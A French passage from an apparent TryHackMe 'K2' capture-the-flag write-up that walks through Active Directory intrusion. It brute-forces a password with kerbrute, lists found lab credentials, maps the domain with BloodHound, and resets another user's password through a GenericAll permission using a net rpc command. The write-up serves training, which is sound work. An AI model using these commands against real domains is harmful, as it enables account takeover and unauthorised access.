 ```bash
```

Nous utilisons cette liste contre le nom d'utilisateur valide `j.bold`.

```
./kerbrute bruteuser --dc K2Server.k2.thm -d k2.thm james_passwords.txt j.bold
```

![j.bold credentials found](/images/THM-K2/jbold_pwd_found.png)

Nous trouvons les identifiants valides `j.bold:#8rockyou`. Cependant, nous ne pouvons pas nous connecter via evil-winrm avec James car son `Remote Access` a été supprimé.

Nous pouvons le confirmer avec les résultats de `net user r.bud` et `net user j.bold`. Rose Bud fait partie du groupe `Remote Management Use`.

![rose group memberships](/images/THM-K2/rosebud_remote_access.png)

Mais James Bold ne l'est pas.

![j.bold group memberships](/images/THM-K2/jbold_no_remote_access.png)

Lançons Bloodhound avec les données d'identification de Rose Bud.

```
bloodhound-python -c all -u r.bud -p 'vRMkaVgdfxhW!8' -d k2.thm -dc K2Server.k2.thm -ns 10.10.70.233
```

![bloodhound-python command](/images/THM-K2/rose_bud_bloodhound_py.png)

Démarrer la base de données

```
sudo neo4j start
```

Lancer Bloodhound

```
bloodhound --no-sandbox
```

Dans la section `Analysis`, nous sélectionnons `Find Shortest Paths to Domain Admins`.

Nous découvrons que les membres de `IT STAFF 1` (dont James fait partie) ont la permission `GenericAll` sur `J.SMITH`.

![IT STAFF 1 members - GenericAll permission](/images/THM-K2/jbold_GenericAll.png)

Nous faisons un clic droit sur le thread `GenericAll`, sélectionnons `Help` et sous `Linux Abuse` nous lisons que nous pouvons changer le mot de passe de l'utilisateur.

![ForceChangePassword command](/images/THM-K2/ForceChangePassword.png)

```
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
